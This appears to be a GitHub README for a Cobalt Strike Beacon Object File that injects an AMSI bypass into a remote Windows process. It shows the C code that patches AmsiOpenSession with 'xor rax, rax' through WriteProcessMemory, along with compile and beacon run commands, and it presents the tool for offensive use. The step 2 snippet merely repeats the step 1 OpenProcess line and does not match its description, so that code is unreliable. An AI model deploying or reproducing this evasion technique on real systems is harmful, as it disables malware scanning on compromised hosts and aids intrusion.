 ## Cobalt Strike BOF - Inject AMSI Bypass
Cobalt Strike Beacon Object File (BOF) that bypasses AMSI in a remote process with code injection.

#### Running inject-amsiBypass BOF from CobaltStrike
  ![](images/runningBof.png)

### What does this do?
##### 1. Use supplied PID argument to get a handle on the remote process
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
##### 2. Load AMSI.DLL into beacons memory and get the address of AMSI.AmsiOpenSession
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
+ Both beacon and the target process will both have the same address for the symbol.
+ If AMSI.DLL does not exist in the remote process, running this may crash the target process.
##### 3. Write the AMSI bypass to the remote processes memory
```c
unsigned char amsibypass[] = { 0x48, 0x31, 0xC0 }; // xor rax, rax
BOOL success = KERNEL32$WriteProcessMemory(hProc, amsiOpenSessAddr, (PVOID)amsibypass, sizeof(amsibypass), &bytesWritten);
```

### Method = AMSI.AmsiOpenSession
+ Uses the AMSI bypass technique taught in Offensive Security's PEN-300/OSEP (Evasion Techniques and Breaching Defenses) course.
  - https://www.offensive-security.com/pen300-osep/

### Proof of Concept Demo Screenshots
#### Before - Powershell.exe AMSI.AmsiOpenSession
  ![](images/Before-Amsi-OpenSession.png)

#### After - Powershell.exe AMSI.AmsiOpenSession
  ![](images/After-AmsiOpenSession.png)

### Compile with x64 MinGW:
```bash
x86_64-w64-mingw32-gcc -c inject-amsiBypass.c -o inject-amsiBypass.o
```
### Run from Cobalt Strike Beacon Console
```bash
beacon> inject-amsiBypass <PID>
```
+ Make sure to load the inject-amsiBypass.cna script into Cobalt Strikes Script Manager

### To Do List
+ Check that AMSI.DLL exists in remote process before injection
+ Add other AMSI bypasses to inject
+ Support x86

### Credits / References
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
##### Sektor7 Malware Dev Essentials course
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
##### Offensive Security OSEP
+ https://www.offensive-security.com/pen300-osep/
